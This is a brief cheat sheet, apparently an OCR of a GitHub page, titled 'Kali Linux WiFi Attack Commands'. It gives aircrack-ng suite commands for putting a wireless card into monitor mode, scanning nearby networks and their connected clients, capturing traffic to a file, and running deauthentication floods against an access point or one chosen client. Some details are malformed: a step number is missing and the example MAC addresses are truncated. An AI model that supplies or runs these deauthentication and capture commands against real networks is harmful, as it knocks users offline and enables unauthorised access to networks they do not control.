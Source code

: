 ## Kali Linux WiFi Attack Commands
1. `ifconfig`
2. `iwconfig`
## Start the Wireless Interface in Monitor Mode
4. `airmon-ng start wlan0` (replace `wlan0` with your device name)
5. `airodump-ng wlan0` - Shows all networks around
6. `airodump-ng --channel 8 --bssid [MAC address] wlan0mon` - Shows devices connected to the selected WiFi network

## AIRODUMP-NG

- `airodump-ng --channel <channel> -bssid <BSSID> --write <file_name> <interface>`
  
  Example: `airodump-ng --channel 12 --bssid 40:30:20:10 --write test mon0`

## Deauthentication Attack

- `aireplay-ng --deauth <#packets> -a <AP> <interface>`

  Example: `aireplay-ng --deauth 1000 -a 10:20:30:40 mon0`

## Target Attack

- `aireplay-ng --deauth <#packets> -a <AP> -c <target> <interface>`

  Example: `aireplay-ng --deauth 1000 -a 10:20:30:40 -c 00:AA:11:BB mon0`
